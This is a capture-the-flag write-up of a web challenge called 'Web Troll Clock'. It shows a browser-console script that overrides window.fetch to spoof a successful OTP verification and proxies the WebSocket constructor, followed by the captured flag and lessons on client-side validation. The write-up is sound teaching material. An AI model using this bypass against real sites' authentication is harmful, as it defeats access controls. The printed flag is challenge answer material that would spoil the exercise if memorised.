



# KPMG CTF 2026: Web Troll Clock — Web Exploitation Writeup

## Challenge Information

| Field | Details |
| :--- | :--- |
| **Challenge Name** | Web Troll Clock |
| **Category** | Web Exploitation / Client-Side Logic Bypass |
| **Points** | 20 |
| **Target WebSocket** | `wss://kicyber-4069427efd1a-trollclock-0-0.chals.io/ws` |
| **Flag** | `KPMG_CTF{0U1gjUKP8iZUwkPUBq01yli5XZr7IFKUV2grCEWx4HY}` |

---

## 1. Challenge Overview

The challenge presents a time-synchronization dashboard titled **Troll Clock**. The application claims to protect its master clock synchronization behind an unpredictable One-Time Password (OTP) verification mechanism and a high-precision countdown timer designed to troll users with continuous desynchronization.

The objective is to analyze the client-side authentication and WebSocket timing protocols, bypass the cosmetic OTP verification, synchronize the clock state, and claim the flag.

---

## 2. Step-by-Step Solution

### Step 1: Identifying Cosmetic OTP Implementation
Opening browser Developer Tools and inspecting the frontend source code revealed that the OTP display was entirely client-side:

```javascript
Math.floor(Math.random() * 1000000)
```

The application generated a random 6-digit number in the DOM for visual appearance, but the server verification check at `/verify-otp` expected a valid confirmation before unlocking the dashboard WebSocket.


---

### Step 2: Overriding `fetch` & Intercepting WebSockets
Because the verification logic relied on the frontend receiving an `{ ok: true }` JSON response from `/verify-otp`, I used the browser DevTools Console to monkey-patch `window.fetch` and intercept the WebSocket handshake.

I executed the following script directly in the browser console:

```javascript
// Hook window.fetch to spoof /verify-otp response
const realFetch2 = window.fetch.bind(window);
window.fetch = async (url, options) => {
  if (String(url).includes("/verify-otp")) {
    return new Response(JSON.stringify({ ok: true }), {
      status: 200,
      headers: { "Content-Type": "application/json" }
    });
  }
  return realFetch2(url, options);
};

// Proxy WebSocket constructor to capture live communication
const NativeWS2 = window.WebSocket;
window.WebSocket = new Proxy(NativeWS2, {
  construct(target, args) {
    const socket = new target(...args);
    window.pageWS = socket;
    console.log("Dashboard WebSocket captured:", args[0]);
    return socket;
  }
});

console.log("Ready. Now click Verify on the webpage.");
```



---

### Step 3: Clock Synchronization via WebSocket
After triggering the bypass, clicking **Verify** on the webpage allowed the UI to proceed. The application initiated a WebSocket connection to:
```text
wss://kicyber-4069427efd1a-trollclock-0-0.chals.io/ws
```

The WebSocket received the clock synchronization payload:
```json
{
  "origin": "http://localhost:3000",
  "type": "clock_sync_result",
  "status": 200,
  "body": "{\"utc_offset\":\"+00:00\",\"timezone\":\"Etc/UTC\",...}"
}
```



---

### Step 4: Submitting and Retrieving the Flag
With the clock synchronized, the verified submission form accepted the synchronization state and returned the final flag:

```text
812866 -> submit
```

**Returned Flag:**
```text
KPMG_CTF{0U1gjUKP8iZUwkPUBq01yli5XZr7IFKUV2grCEWx4HY}
```



---

## 3. Final Flag

```text
KPMG_CTF{0U1gjUKP8iZUwkPUBq01yli5XZr7IFKUV2grCEWx4HY}
```

---

## 4. Key Takeaways
1. **Never trust client-side validation:** Generating security tokens (`Math.random()`) or validating authentication state in the browser provides zero actual protection.
2. **API & Fetch Interception:** Client-side network APIs (`fetch`, `XMLHttpRequest`, `WebSocket`) can be easily hooked or overridden via DevTools to force state transitions in client-heavy applications.
